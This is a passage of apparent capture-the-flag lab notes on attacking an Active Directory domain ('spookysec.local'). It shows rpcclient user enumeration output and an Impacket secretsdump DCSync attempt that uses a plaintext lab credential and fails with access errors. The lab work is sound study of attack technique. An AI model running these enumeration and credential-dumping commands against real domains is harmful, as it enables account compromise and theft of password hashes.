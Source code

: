 ```
        Password must change Time:      mié, 13 set 30828 21:48:05 -05
        unknown_2[0..31]...
        user_rid :      0x1f4
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x0000000f
        padding1[0..7]...
        logon_hrs[0..21]...

rpcclient $> queryuser 0x641
        User Name   :   a-spooks
        Full Name   :   Admin Spooks
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      jue, 17 set 2020 19:07:50 -05
        Logoff Time              :      mié, 31 dic 1969 19:00:00 -05
        Kickoff Time             :      mié, 13 set 30828 21:48:05 -05
        Password last set Time   :      jue, 17 set 2020 18:02:20 -05
        Password can change Time :      vie, 18 set 2020 18:02:20 -05
        Password must change Time:      mié, 13 set 30828 21:48:05 -05
        unknown_2[0..31]...
        user_rid :      0x641
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x00000006
        padding1[0..7]...
        logon_hrs[0..21]...
```

> enumdomusers
> enumdomgroups
> querygroupmem

------

## DCSync Attack

```
❯ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py spookysec.local/svc-admin:management2005@10.10.28.119
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something wen't wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```
